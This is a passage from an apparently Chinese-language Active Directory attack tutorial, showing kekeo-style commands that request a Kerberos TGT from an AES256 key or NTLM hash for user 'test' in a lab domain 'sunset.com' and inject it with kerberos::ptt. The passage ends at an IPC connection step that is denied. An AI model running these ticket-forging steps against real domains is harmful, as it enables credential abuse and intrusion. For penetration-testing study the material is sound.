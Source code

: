     假如是获得的是`aes256`密钥
    
    ```python
     tgt::ask /user:test /domain:sunset.com /aes256:ba645451b3b4a065cf2227eb1611a5537c628de6ff5b595a88987ccc43350db2
    ```
    
    会在当前目录生成`tgt`票据文件
    
    ![image.png](image%2011.png)
    
2. 导入票据文件
    - `kerberos::ptt`
        
        ```python
        kerberos::ptt TGT_test@SUNSET.COM_krbtgt~sunset.com@SUNSET.COM.kirbi
        ```
        
        ![image.png](image%2012.png)
        
    - 也可以在生成票据的时候直接加上 `/ptt` 直接导入
        
        ```python
        tgt::ask /user:test /domain:sunset.com /ntlm:95e7c9e155ed6f372fbe791c52a5e345 /ptt
        ```
        
3. 连接IPC，因为`test`是域内普通账户，所以拒绝访问
    